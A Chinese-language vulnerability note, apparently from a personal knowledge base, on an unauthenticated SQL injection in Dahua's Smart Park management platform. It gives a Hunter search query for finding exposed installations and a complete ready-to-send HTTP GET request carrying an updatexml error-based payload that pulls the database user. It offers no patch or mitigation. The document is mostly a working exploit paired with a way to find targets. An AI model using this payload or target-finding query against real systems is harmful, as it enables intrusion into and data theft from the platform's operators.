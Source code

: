 # 大华智慧园区综合管理平台searchJson SQL注入漏洞

# 一、漏洞简介
  “大华智慧园区综合管理平台”是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。大华智慧园区综合管理平台未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter：`app.name="Dahua 大华 智慧园区管理平台"`

![1691829123219-724bd409-5d1c-4593-88e9-2990fef366ad.png](./img/9KTgHf02N5fP6w1g/1691829123219-724bd409-5d1c-4593-88e9-2990fef366ad-737633.png)

+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/9KTgHf02N5fP6w1g/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-887240.png)

# 四、漏洞复现
```plain
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20user()),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: xx.xx.xx.xx
Cookie: JSESSIONID=0B95DCE16676556E16169127452F23E1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1694074042507-ea2e434a-5839-4d4f-9c5f-c93c890625f7.png](./img/9KTgHf02N5fP6w1g/1694074042507-ea2e434a-5839-4d4f-9c5f-c93c890625f7-635909.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nuyho759ar0isski>